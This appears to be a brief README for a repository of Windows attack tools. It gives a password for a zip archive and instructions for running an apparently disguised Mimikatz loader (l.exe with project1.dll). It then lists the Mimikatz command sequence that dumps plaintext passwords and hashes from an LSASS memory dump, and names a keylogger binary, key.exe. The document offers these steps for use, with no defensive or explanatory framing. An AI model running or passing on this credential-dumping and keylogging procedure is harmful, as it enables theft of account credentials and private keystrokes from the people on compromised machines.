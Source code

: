 # tools
7.zip 123456 use：l.exe project1.dll
1、privilege::debug
2、sekurlsa::minidump 1.bin
3、sekurlsa::logonPasswords full


key.exe 键盘记录
